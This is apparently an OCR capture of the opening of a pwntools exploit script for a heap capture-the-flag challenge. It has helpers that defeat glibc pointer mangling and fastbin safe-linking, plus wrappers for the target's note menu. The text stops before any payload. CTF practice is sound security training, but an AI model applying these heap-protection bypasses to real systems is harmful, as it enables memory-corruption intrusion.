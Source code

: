 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall")
sandboxed = ELF("./sandboxedlib.so")
library_runner = ELF("./library_runner")
if args.LOCAL and not args.DOCKER:
    lib = ELF("/usr/lib/libc.so.6")
    lib2 = ELF("/usr/lib/libc.so.6")
else:
    lib = ELF("./lib/libc.so.6")
    lib2 = ELF("./lib/libc.so.6")

context.binary = exe
context.aslr = True

def exit_funcs_encrypt(val: int, key: int):
    r_bits = 0x11
    max_bits = 64
    enc = val ^ key
    return (enc << r_bits % max_bits) & (2 ** max_bits - 1) | ((enc & (2 ** max_bits - 1)) >> (max_bits - (r_bits % max_bits)))

def exit_funcs_decrypt(val: int, key: int):
    r_bits = 0x11
    rotated = (2**64-1)&(val>>r_bits|val<<(64-r_bits))
    return rotated ^ key

def fastbin_encrypt(pos: int, ptr: int):
    return (pos >> 12) ^ ptr

def fastbin_decrypt(val: int):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def add_note(idx, size, data):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"Enter index of note:", str(idx).encode())
    p.sendlineafter(b"Enter size of note:", str(size).encode())
    p.sendafter(b"Enter note content:", data)

def free_note(idx):
    p.sendlineafter(b">", b"2")
    p.sendlineafter(b"Enter index of note:", str(idx).encode())

def edit_note(idx, data):
    p.sendlineafter(b">", b"3")
    p.sendlineafter(b"Enter index of note:", str(idx).encode())
    p.sendafter(b"Enter note content:", data)

def view_note(idx):
    p.sendlineafter(b">", b"4")
    p.sendlineafter(b"Enter index of note:", str(idx).encode())
    return p.recvuntil(b"Operation success", drop=True)[1:]

def get_feedback(data):
    p.sendlineafter(b">", b"5")
    p.sendafter(b"Please provide your feedback", data)
```